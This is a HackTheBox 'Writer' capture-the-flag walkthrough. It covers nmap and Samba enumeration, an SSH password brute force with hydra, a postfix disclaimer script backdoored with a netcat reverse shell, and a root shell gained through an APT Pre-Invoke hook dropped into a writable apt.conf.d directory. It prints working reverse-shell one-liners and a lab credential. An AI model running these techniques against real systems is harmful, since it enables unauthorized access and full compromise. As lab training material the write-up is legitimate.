

# HACKTHEBOX: Writer

## Recon and Enumeration
Start with an nmap scan of the box.
```
# Nmap 7.92 scan initiated Thu Oct 28 21:40:31 2021 as: nmap -A -p- --min-rate 4000 -oA writer 10.10.11.101
Nmap scan report for writer.htb (10.10.11.101)
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results: | smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-10-29T04:41:00
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 28 21:41:06 2021 -- 1 IP address (1 host up) scanned in 34.36 seconds
```

Samba is running on the machine. Run `enum4linux -a -A 10.10.11.101` to discover users. Two users are discovered: kyle and john


## Exploitation and user.txt
Brute forcing ssh passwords reveals credentials for kyle. This takes a really long time.
```
$ hydra -l kyle -P ~/Wordlists/rockyou.txt 10.10.11.101 ssh -V -u -o creds.txt 
[22][ssh] host: 10.10.11.101   login: kyle   password: marcoantonio
```

Log into the box with the crds `kyle:marcoantonio`


Run linpeas to find privilege escalation.


Under *Analyzing Postfix Files* the user john runs a disclaimer script.


Note that the file `/etc/postfix/disclaimer` is writable to anyone in the *filter* group.


By modifying the script we can achieve code execution as *john* when we send an email. Create a text file with SMTP commands to be run with postfix. This series of SMTP input will send an email.
```
HELO writer.htb
MAIL FROM:kyle@writer.htb
RCPT TO:kyle@writer.htb
Data
subject: hello
hello

.

quit
```

Start listening with netcat as the attacker with the command `nc -lvnp 9001` and add a reverse shell payload
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.41 9001 >/tmp/f
```
to the top of /etc/postfix/disclaimer.


Upgrade the shell and steal john's ssh key. An upgraded shell makes the environment a lot more convenient to work with.


Run linpeas again as john.


There appears to be a cronjob running apt-get update.
```
root        4568  0.0  0.0   8352  3360 ?        S    02:30   0:00  _ /usr/sbin/CRON -f
root        4577  0.0  0.0   2608   608 ?        Ss   02:30   0:00      _ /bin/sh -c /usr/bin/apt-get update
```

A quick google search finds this article https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/ with instructions on how to abuse `apt-get update` running as a cronjob.
```
john@writer:~$ groups
john management
john@writer:~$ ls -la /etc/apt/apt.conf.d/
total 48
drwxrwxr-x 2 root management 4096 Jul 28 09:24 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
```

It appears that the directory `/etc/apt/apt.conf.d/` is writable to the management group so the cronjob exploit will work.
```
sadeli@attack:~$ nc -lvnp 1234
john@writer:~$ cd /etc/apt/apt.conf.d/
john@writer:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc SADELIATTACK 1234 >/tmp/f”};’ > 40pwn
sadeli@attack:~$ nc -lvnp 1234
Connection from 10.10.11.101:34072
sh: 0: can't access tty; job control turned off
# whoami
root
```
